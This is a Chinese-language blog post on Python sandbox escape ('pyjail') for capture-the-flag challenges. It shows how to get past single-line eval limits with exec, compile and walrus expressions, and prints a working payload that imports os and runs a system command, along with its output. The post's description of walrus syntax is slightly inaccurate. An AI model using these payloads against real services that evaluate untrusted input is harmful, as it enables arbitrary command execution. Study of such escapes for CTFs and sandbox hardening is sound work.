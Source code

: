 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [dummykitty.github.io](https://dummykitty.github.io/posts/pyjail-bypass-04-%E7%BB%95%E8%BF%87%E5%A4%9A%E8%A1%8C%E9%99%90%E5%88%B6/)

> 绕过多行限制 绕过多行限制的利用手法通常在限制了单行代码的情况下使用, 例如 eval, 中间如果存在；或者换行会报错。

绕过多行限制[](#绕过多行限制)
-----------------

绕过多行限制的利用手法通常在限制了单行代码的情况下使用, 例如 eval, 中间如果存在；或者换行会报错。

```
>>> eval("__import__('os');print(1)")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    __import__('os');print(1)
```

### exec[](#exec)

exec 可以支持换行符与`;`

```
>>> eval("exec('__import__(\"os\")\\nprint(1)')")
```

### compile[](#compile)

compile 在 single 模式下也同样可以使用 \n 进行换行, 在 exec 模式下可以直接执行多行代码.

```
eval('''eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec'))''')
```

### 海象表达式[](#海象表达式)

海象表达式是 Python 3.8 引入的一种新的语法特性，用于在表达式中同时进行赋值和比较操作。

海象表达式的语法形式如下：

```
<expression> := <value> if <condition> else <value>
```

借助海象表达式，我们可以通过列表来替代多行代码：

```
>>> eval('[a:=__import__("os"),b:=a.system("id")]')
uid=1000(kali) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
[<module 'os' (frozen)>, 0]
```

参考资料[](#参考资料)
-------------

*   [Python 沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
*   [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
*   [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
*   [python 沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
*   [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
*   [[PyJail] python 沙箱逃逸探究 · 上（HNCTF 题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
*   [[PyJail] python 沙箱逃逸探究 · 中（HNCTF 题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
*   [[PyJail] python 沙箱逃逸探究 · 下（HNCTF 题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
*   [audited2](https://ctftime.org/writeup/31883)
*   [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
*   [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
*   [Python 沙箱逃逸的 n 种姿势](https://ctftime.org/writeup/28286)
*   [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)

This post is licensed under [CC BY 4.0](https://creativecommons.org/licenses/by/4.0/) by the author.